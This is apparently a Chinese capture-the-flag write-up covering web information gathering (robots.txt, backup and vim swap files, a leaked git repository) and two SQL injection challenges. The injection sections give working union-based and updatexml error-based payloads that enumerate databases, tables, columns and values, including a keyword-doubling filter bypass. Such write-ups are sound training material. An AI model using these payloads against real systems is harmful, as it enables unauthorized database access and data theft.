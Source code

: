 [toc]

# 0x01 [信息搜集]

## 常见的搜集

敏感文件泄露，web中常见的敏感文件包括：

> 
- rbots.txt
- readme.txt/md
- www.zip/rar/tar：网站备份文件
- 中间件的banner信息，暴露中间件版本或框架版本
- gedit备份文件：后缀为~
- vim备份文件: .文件名.swp
- 未完待续。。。。

本题：
解题
发现robots,得到提示flag1_is_her3_fun.txt访问该文件，得到FALG上半部分：
![](pic/sf1.png)

发现index.php~，得到第二部部分flag: s_v3ry_im
![](pic/sf2.png)

发现.index.php.swp，下载后通过命令还原
![](pic/sf3.png)

```shell
touch index.php --先创建index.php文件
vim -r index.php --还原文件
```
![](pic/sf4.png)

## 粗心的小李

根据题目提示，是一道git泄露题，直接上工具GitHacker下载git文件

![](pic/git_01.png)
![](pic/git_02.png)

访问index.html，得到flag
![](pic/git_03.png)


# 0X02 [SQL注入]

## SQL注入-1

尝试`id=1' and 1=2 --+` 页面无显示，`id=1' and 1=1 --+` 返回内容等于`id=1`,应该是字符型注入：
![](pic/sql1_1.png)

![](pic/sql1_2.png)

尝试`id=1' and 1=1  order by 4--+` 页面无显示, 返回数据项为3项;

相关playlod如下
```
--爆库名
?id=99' union all select 1,2,database() --+
--爆表
?id=99' union all select 1,2,group_concat(table_name) from  information_schema.tables where table_schema=database() --+
--爆列
?id=99' union all select 1,2,group_concat(column_name) from  information_schema.columns where table_schema=database()  and table_name='fl4g'--+
--爆值
?id=99' union all select 1,2,fllllag from fl4g --+
```

## SQL注入-2
根据提示，访问login.php，并带上参数?tips=1 观察SQL报错信息，
> name=test'&pass=123

![](pic/sql2_1.png)

> name=test'#&pass=123

SQL不报错了，回显正常的校验信息，所以这题可以使用SQL 报错信息进行注入,使用`updatexml()`函数进行注入

** 原理:

> 当参数2不符合/xxx/xxx/xxx的格式时，函数会报错，并将值显示在报错信息中,所以可以构建如下paylod:
> 
``` sql
(updatexml(‘anything’,concat(‘~’,(select database())),’anything’))
```

``` 
--爆库名
name=test' and (updatexml('anything',concat('~',(select database())),'anything'))# &pass=1

--爆表
name=test' and (updatexml('anything',concat('~',(selselectect group_concat(table_name) from information_schema.tables where table_schema='note')),'anything'))# &pass=1 

--爆列
 name=test' and (updatexml('anything',concat('~',(selselectect group_concat(column_name) from information_schema.columns  where table_schema='note' and table_name='fl4g')),'anything'))# &pass=1

--爆值
name=test' and (updatexml('anything',concat('~',(selselectect flag from fl4g)),'anything'))# &pass=1 
  ```

![](pic/sql2_2.png)
![](pic/sql2_3.png)